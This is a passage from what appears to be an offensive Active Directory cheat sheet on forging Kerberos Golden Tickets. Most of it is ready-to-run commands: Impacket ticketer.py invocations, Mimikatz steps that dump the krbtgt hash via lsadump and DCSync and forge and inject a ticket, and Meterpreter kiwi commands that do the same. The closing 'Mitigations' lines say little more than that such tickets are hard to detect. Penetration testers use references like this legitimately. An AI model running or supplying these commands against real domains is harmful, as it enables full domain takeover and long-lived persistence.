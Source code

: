 ```powershell
python3 ticketer.py -nthash <KRBTGT_NTLM_HASH> \
  -domain-sid S-1-5-21-1234567890-2345678901-3456789012 \
  -domain corp.local Administrator

python3 ticketer.py -nthash <KRBTGT_NTLM_HASH> \
  -domain-sid S-1-5-21-1234567890-2345678901-3456789012 \
  -domain corp.local \
  -user-id 500 \
  -extra-sid S-1-5-21-1234567890-2345678901-3456789012-512 \
  Administrator
```

* Using **Mimikatz**

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

* Using **Meterpreter**

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```

Golden tickets with "Enterprise admins" SID can be used cross forest boundaries.

**Mitigations**:

* Hard to detect because they are legit TGT tickets
* Mimikatz generate a golden ticket with a life-span of 10 years

## Pass-the-Ticket Silver Tickets
